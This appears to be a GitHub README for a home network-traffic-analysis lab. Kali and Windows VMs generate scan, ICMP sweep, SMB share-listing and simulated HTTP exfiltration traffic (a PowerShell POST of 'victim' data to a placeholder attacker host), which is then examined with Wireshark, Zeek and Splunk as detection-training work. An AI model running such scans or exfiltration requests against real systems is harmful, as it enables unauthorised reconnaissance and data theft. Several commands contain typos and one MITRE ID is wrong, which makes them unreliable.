  ## ⛓ Network Traffic Analysis (Kali + Windows)
 ### Objective
Capture and analyze network traffic for common attacker behaviors (scan, beacon/HTTP exfil, ICMP sweep, SMB touch) and document detections.

### Lab Topology
- Put Kali and Windows on the same **Host-Only** or Internal network in your hypervisor (Please see Image 1.1 & 1.2 within the Screenshots folder).
- Find IPs (Please see Image 1.3 & 1.4 within the Screenshots folder):
   + Kali: `ip a` (note interface like eth0 or ens33)
     + Kali (attacker/analyst): `<KALI_IP>`
   + Windows: `ipconfig`
     + Windows 10 VM (victim): `<WIN_IP>`

### Tools
- tcpdump / Wireshark (packet capture) (Please see Image 2 within the Screenshots folder)
  + **Kali:**
   ```Bash
   sudo apt update
   sudo apt install -y wireshark tcpdump zeek nmap curl
   ```
  + **Windows:** install **Wireshark (optional) and ensure **PowerShell** is available.

    **Note:** capture on Kali (attacker) while you generate traffic between Kali ↔ Windows.
- Zeek (pcap → structured logs)
- (Optional) Splunk (search/visualize Zeek logs)

### First capture
This is the **Baseline** capture.
1. Method 1: On Kali (replace `eth0` with your interface):

```Bash

Sudo tcpdump -i eth0 -w baseline .pcap
```
Leave this running while you generate traffic (next section). Press **Ctrl+C** to stop and write the file.


2.  Using Wireshark (my preffered option)
Start **Wireshark** on Kali → select your interface → click start (blue shar icon) → later click Stop (red square) → Save as `baseline.pcap`. 


### Scenarios
We’ll do 4 useful, resume-worthy scenarios. Run each while capturing (new pcap per scenario), then stop capture after each.

1. Port scan → `scan_windows.pcap` (MITRE T1046)
On **Kali:**

```bash
Sudo nmap -sS -T4 -p 1-1024 <WINDOWS_IP>

```

Save capture as `scan_windows.pcap`.
**MITRE:** Discovery (T1046 - Network Service Discovery)
  
2. HTTP beacon/exfil → `http_exfil.pcap` (T1071.001, T1041)
On **Kali**, start a mini web server:

```bash
pythons -m http.server 8000

```

On Windows (PowerShell), send a fake “beacon/exfil” POST:

```powershell

Invoke-WebRequest -Uri "http://<KALI_IP>:8000/upload" -Method POST -Body "sample=hello&user=victim1"
Start-Sleep -Seconds 5
Invoke-WebRequest -Uri "http://<KALI_IP>:8000/beat"   -Method GET

```

Stop capture → save as `http_exfil.pcap`.
**MITRE:** Command & Control (T1071.001 - Web Protocols), Exfiltration (T1041 - Exfil over C2 channel)

3. ICMP sweep → `icmp_sweep.pcap` (T1018)
On **Kali** (pick your /24):

```bash

sudo nmap -sn <YOUR_SUBNET>/24

```

Save as `icmp_sweep.pcap`.
**MITRE:** Discovery (T108 - Remote System Discovery)

4. SMB touch → `smb_touch.pcap` (T1135)
From **Kali** (non-auth listing may fail harmlessly but still generates traffic):

```bash
smbclient -L //<WINDOWS_IP>/ -N

```
Save as `smb_touch.pcap`.
**MITRE:** Discovery (T1135 - Network Share Discovery), Lateral Movement (surface only)
Tip: Keep pcaps <50-100 MB; if larger, zip them.

### Quick Wireshark Analysis
Open each .pcapng` in Wireshark and use these **display filters:**

**Port scan**
- SYNs without ACKs (half-open):
```ini

tcp.flags.syn==1 && tcp.flags.ack==0

```
- Dest port heatmap: Statistics → Endpoints/Conversations.

**HTTP beacon/exfil**
- HTTP POSTs:
```ini

ip.dst == <KALI_IP> && http

```

- All HTTP to Kali:

```ini

ip.dst == <KALI_IP> && http

```

**ICMP sweep**

```go

icmp && ip.dst==<SUBNET_RANGE> && icmp.type==8

```

**SMB**
```ini

tcp.port==445 || tcp.port==139

```

Export screenshots: flow graphs (Statistics → Flow Graph), packet details, conversation lists.

### Zeek - Powerful logs from pcapng

```bash
mkdir -p ~/zeek_out/scan ~/zeek_out/http ~/zeek_out/icmp ~/zeek_out/smb

zeek -Cr scan_windows.pcap    Log::default_path=~/zeek_out/scan
zeek -Cr http_exfil.pcap      Log::default_path=~/zeek_out/http
zeek -Cr icmp_sweep.pcap      Log::default_path=~/zeek_out/icmp
zeek -Cr smb_touch.pcap       Log::default_path=~/zeek_out/smb

```
You'll get logs like `conn.log`, `http.log`, `ssl.log`, `dns.log` (if present), etc.

**Quick reads**
```bash
# Top 10 destination ports from the scan
cat ~/zeek_out/scan/conn.log | zeek-cut id.resp_p | sort -n | uniq -c | sort -nr | head

# HTTP paths & methods in exfil
cat ~/zeek_out/http/http.log | zeek-cut method host uri | head

# ICMP talkers
cat ~/zeek_out/icmp/conn.log | zeek-cut id.orig_h id.resp_h proto service | grep icmp | head

```
### Splunk the Zeek logs (Optional)
If Splunk is on **Windows VM**, share/copy Zeek logs to Windows (e.g., `C:\lab\zeek\http\...`) and add as a data input:

- Splunk → **Settings → Add Data → Monitor → Files & Directories** → select the Zeek folder.
- Set sourcetype(s) to something like `zeek:conn`, `zeek:http` (or `automatic` to start).

Example searches:
```spl

index=* sourcetype=zeek:conn
| stats count dc(id.resp_p) AS unique_ports BY id.orig_h
| sort -count

```

```spl

index=* sourcetype=zeek:http
| stats count BY method host uri
| sort -count

```
### How to Reproduce
See `reports/NTA_Methodology.md` for exact commands and Wireshark filters.

### Findings
- `reports/Findings_scan.md`
- `reports/Findings_http.md`
- `reports/Findings_icmp.md`
- `reports/Findings_smb.md`

### Evidence
- `pcaps/` (captured traffic)
- `zeek/` (parsed logs)
- `screenshots/` (Wireshark/Splunk)

### Talking point about this project
- Confidentiality: Show exfil attempt over HTTP and how you detected it (Zeek HTTP logs, Wireshark POSTs).

- Integrity: Explain why structured Zeek logs preserve evidence better than raw pcaps alone.

- Availability: Show how scans/sweeps can precede DoS and how you’d baseline normal vs. noisy traffic.
